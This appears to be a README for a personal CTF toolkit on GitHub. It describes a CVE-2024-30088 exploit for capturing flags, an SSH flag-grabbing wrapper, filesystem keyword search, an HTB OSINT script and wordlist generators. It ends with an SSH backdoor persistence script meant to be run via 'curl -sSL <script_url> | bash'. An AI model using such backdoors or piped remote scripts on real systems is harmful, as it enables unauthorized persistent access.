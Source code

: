 # CTF

## [CVE-2024-30088_flags.cpp](./CVE-2024-30088_flags.cpp) - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## [flagssh.sh](./flagssh.sh) - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## [grepper.sh](./grepper.sh) - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## [htb-usercontent.py](./htb-usercontent.py) - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.

## [quickpass.py](./quickpass.py) - Search for Passwords in rockyou.txt Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

## [prefixsuffix.py](./prefixsuffix.py) - Generate Quick Custom Wordlists for CTF Challenges

`prefixsuffix.py` is a fast and customizable wordlist generator designed specifically for CTF challenges. It allows you to create targeted wordlists by combining predefined or custom prefixes and suffixes, making it ideal for situations where traditional wordlists like `rockyou.txt` take too long to process, especially against hashing algorithms or slow brute-force attacks.


#### Usage:
```bash
python3 prefixsuffix.py [--all] [--leet] [--prefix <prefix1> <prefix2>] [--suffix <suffix1> <suffix2>] [-cp]
```

- `--all`: Include lowercase versions of the predefined and additional prefixes.
- `--leet`: Apply Leet speak transformations to both prefixes and suffixes.
- `--prefix`: Add custom prefixes to the wordlist.
- `--suffix`: Add custom suffixes to the wordlist.
- `-cp` or `--custom-prefixes`: Use only the custom prefixes supplied and ignore the predefined ones.
- `--output`: Save the generated wordlist to a file (default: `prefixsuffix.txt`).


#### Usage:
```bash
quickpass.py <keywords> [--leet]
```

## [ssh-backdoor.sh](./ssh-backdoor.sh) - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```



